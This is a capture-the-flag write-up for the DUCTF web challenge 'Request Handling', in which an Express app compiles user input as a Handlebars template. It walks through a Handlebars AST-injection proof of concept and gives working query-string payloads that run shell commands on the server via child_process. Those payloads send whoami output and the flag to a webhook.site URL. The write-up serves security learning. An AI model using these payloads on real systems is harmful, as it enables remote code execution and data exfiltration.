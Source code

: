 # 🏷️ Request Handling

**Category:** Web  
**Description:**  
> They patched Handlebars SSTI, there's nothing to worry about.

-----
In this challenge we are just given a Dockerfile

```Dockerfile
FROM alpine:latest AS flag-builder

WORKDIR /build
RUN apk add gcc musl-dev
RUN cat <<EOF > getflag.c
#include <stdio.h>
int main() {
    printf("DUCTF{test_flag}\n");
}
EOF
RUN gcc -static getflag.c -o getflag

FROM node:22-alpine

WORKDIR /app
RUN npm init -y && npm install express@4 handlebars

RUN cat <<EOF > app.js
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
EOF

COPY --from=flag-builder /build/getflag /getflag
RUN chmod 111 /getflag

EXPOSE 8000

USER node
CMD node app.js
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/skeleton.gif?raw=true" alt="Skeleton GIF" width="300" height="300">

<br />

The only thing we have to focus on was `res.send(Handlebars.compile(req.query.x)({}));`

googling about handlebars the only thing that came out was prototype pollution with some AST stuff.

Example : 

```js
pay= {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'pwd'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```
<br />
found a POC: 

```js
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg":"Hello!!!"}))
```
<br />

After trying out some ways to find a working payload with my teamate found this one : 

```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(whoami)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```

And i got a call back
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/1.PNG?raw=true' />
<br />
Getting the flag : 
```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(../getflag|base64)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/2.PNG?raw=true'>
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/3.PNG?raw=true'>
<br />
FLAG : 
```
DUCTF{35116296c07966e5f645dac55a0fe81c}
```

